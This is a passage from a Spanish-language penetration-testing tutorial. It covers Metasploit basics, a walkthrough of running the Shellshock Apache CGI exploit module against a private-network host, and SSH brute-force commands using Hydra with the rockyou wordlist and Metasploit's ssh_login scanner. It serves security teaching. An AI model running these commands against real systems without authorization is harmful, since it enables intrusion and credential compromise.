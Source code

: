 ### Conceptos Fundamentales

```bash
# Estructura de Metasploit
# Exploits: Código que aprovecha vulnerabilidades
# Payloads: Código que se ejecuta tras la explotación
# Auxiliary: Módulos auxiliares (scanners, fuzzers)
# Post: Módulos de post-explotación
# Encoders: Codificadores para evadir detección
```

### Comandos Básicos

```bash
# Buscar exploits
search apache
search type:exploit platform:linux
search cve:2021-44228

# Información del exploit
info exploit/linux/http/apache_mod_cgi_bash_env_exec

# Usar exploit
use exploit/linux/http/apache_mod_cgi_bash_env_exec

# Ver opciones
show options
show payloads
show targets

# Configurar parámetros
set RHOSTS 192.168.1.100
set RPORT 80
set LHOST 192.168.1.50

# Ejecutar exploit
exploit
run
```

## 🎯 Explotación de Servicios SSH

### 1. Ataques de Fuerza Bruta

```bash
# Con Hydra
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100

# Con listas personalizadas
hydra -L users.txt -P passwords.txt ssh://192.168.1.100

# Con Metasploit
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.100
set USERNAME admin
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
```
